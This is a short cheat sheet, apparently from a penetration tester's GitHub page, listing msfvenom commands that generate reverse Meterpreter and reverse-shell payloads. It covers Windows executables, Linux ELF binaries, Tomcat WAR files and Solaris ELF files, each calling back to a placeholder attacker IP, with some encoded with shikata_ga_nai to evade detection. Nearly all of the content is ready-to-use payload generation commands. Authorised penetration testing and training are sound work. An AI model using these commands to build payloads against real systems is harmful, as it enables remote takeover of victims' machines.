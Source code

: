 # MSFVenom Cheat Sheet
This sheet is for all of the use-case scenarios in which I have and will use MSFVenom during a penetration test for generating payloads for systems.
## WINDOWS
This section is for all Windows binary creation techniques used with MSFVenom
### Reverse Meterpreter
To make the victim server or system connect back to the attacker and send meterpreter to be spawned by the handler running on the attacker machine.
1. Generate the MSFVenom Reverse Meterpreter payload:

`./msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -b '\x00' -e x86/shikata_ga_nai -f exe -o /ftphome/shell.exe`

## LINUX
This section is for all LINUX binary creation techniques used with MSFVenom

`./msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(ATTACKER IP) LPORT=5555 -a x86 --platform=linux -f elf -b '\x00' -o shell.o`

## JAVA TOMCAT
### .WAR File
`./msfvenom --platform=(OS TYPE) --payload=java/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=6666 -f shell.war`

## SunOS (Solaris)
### Elf File
`/msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf`
